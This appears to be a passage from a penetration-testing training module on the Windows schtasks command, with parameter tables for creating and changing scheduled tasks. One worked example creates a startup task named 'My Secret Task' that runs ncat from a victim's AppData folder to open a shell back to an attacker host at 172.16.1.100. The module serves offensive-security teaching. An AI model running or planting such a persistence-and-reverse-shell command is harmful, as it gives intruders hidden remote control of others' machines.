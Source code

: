 ## Create
| **Action** | **Parameter** | **Description**                                                                                                               |
| ---------- | ------------- | ----------------------------------------------------------------------------------------------------------------------------- |
| `Create`   |               | Schedules a task to run.                                                                                                      |
|            | /sc           | Sets the schedule type. It can be by the minute, hourly, weekly, and much more. Be sure to check the options parameters.      |
|            | /tn           | Sets the name for the task we are building. Each task must have a unique name.                                                |
|            | /tr           | Sets the trigger and task that should be run. This can be an executable, script, or batch file.                               |
|            | /s            | Specify the host to run on, much like in Query.                                                                               |
|            | /u            | Specifies the local user or domain user to utilize                                                                            |
|            | /p            | Sets the Password of the user-specified.                                                                                      |
|            | /mo           | Allows us to set a modifier to run within our set schedule. For example, every 5 hours every other day.                       |
|            | /rl           | Allows us to limit the privileges of the task. Options here are `limited` access and `Highest`. Limited is the default value. |
|            | /z            | Will set the task to be deleted after completion of its actions.                                                              |
At a minimum, we must specify the following:
- `/create` : to tell it what we are doing
- `/sc` : we must set a schedule
- `/tn` : we must set the name
- `/tr` : we must give it an action to take
Everything else is optional. Let us see an example below of how we could create a task to help us get a shell.
```cmd-session
C:\htb> schtasks /create /sc ONSTART /tn "My Secret Task" /tr "C:\Users\Victim\AppData\Local\ncat.exe 172.16.1.100 8100"

SUCCESS: The scheduled task "My Secret Task" has successfully been created.
```
In our example above, we have `schtasks` execute `Ncat` locally, which we placed in the user's `AppData` directory, and connect to the host `172.16.1.100` on port `8100`. If successfully executed, this connection request should connect to our command and control framework (Metasploit, Empire, etc.) and give us shell access.

## Change
| **Action** | **Parameter** | **Description**                                    |
| ---------- | ------------- | -------------------------------------------------- |
| `Change`   |               | Allows for modifying existing scheduled tasks.     |
|            | /tn           | Designates the task to change                      |
|            | /tr           | Modifies the program or action that the task runs. |
|            | /ENABLE       | Change the state of the task to Enabled.           |
|            | /DISABLE      | Change the state of the task to Disabled.          |
